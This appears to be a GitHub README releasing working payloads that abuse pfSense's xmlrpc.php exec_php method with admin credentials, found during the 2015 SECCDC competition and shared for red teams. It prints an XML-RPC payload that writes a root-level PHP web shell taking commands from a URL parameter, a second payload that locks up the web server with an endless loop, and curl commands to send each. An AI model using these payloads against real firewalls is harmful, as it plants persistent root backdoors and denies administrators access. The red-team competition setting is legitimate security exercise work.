 # Quick Introduction

This is a sample payload and example use of abusing pfSense's xmlrpc.php functions to establish a backdoor
and get root level access to pfSense firewalls.

This exploit is post-auth (for the admin account) and as it stands is considered a non-issue according to 
the pfSense security team, since this password is shared for both the web and ssh services (ssh wasn't WAN 
accessible when this was used). This authentication method bypasses security rules  that apply to auth attempts 
against the web and is treated as a `local_backed` authentication attempt.  Any PHP shells that are dropped
to web root will run with full root perms.  It is also worth noting the web server appears to be single threaded
so spinning up a long running exec (such as a loop or ping without count) will effectively DoS the web server
and stop web based authentication and administration.

This was discovered during the 2015 [SECCDC](http://en.wikipedia.org/wiki/Southeastern_Collegiate_Cyber_Defense_Competition) 
competition and was used to drop active backdoors on teams firewalls. I am releasing it because I thought it was interesting and could be handy 
for other Red Teams.  

## The XML PHP backdoor payload
This payload can be sent to the pfSense box, it will utilize the `pfsense.exec_php` method to write a very simple 
php backdoor named `ignore.php` to the webroot on the firewall.

```
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pfsense.exec_php</methodName>
<params>
<param><value><string>password</string></value></param>
<param><value><string>exec('echo \'&lt;pre&gt; &lt;?php $res = system($_GET["cmd"]); echo $res ?&gt; &lt;/pre&gt;\' > /usr/local/www/ignore.php');</string></value></param>
</params>
</methodCall>
```

## Simple usage
Using this payload against the pfSense xmlrpc.php file is a simple HTTP request using curl

```
curl --data @pfsense_exec http://10.10.100.1/xmlrpc.php
```

## The backdoor in use at SECCDC
![ignore.php in use](/images/backdoored.png)

## The XML DoS
This payload can be sent to the pfSense box, it will lock up the web server so web based authentication and
administration will not function.

```
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pfsense.exec_php</methodName>
<params>
<param><value><string>password</string></value></param>
<param><value><string>exec('while true; do sleep 1; done');</string></value></param>
</params>
</methodCall>
```

## Simple usage
Using this payload against the pfSense xmlrpc.php file is a simple HTTP request using curl

```
curl --data @pfsense_dos http://10.10.100.1/xmlrpc.php
```




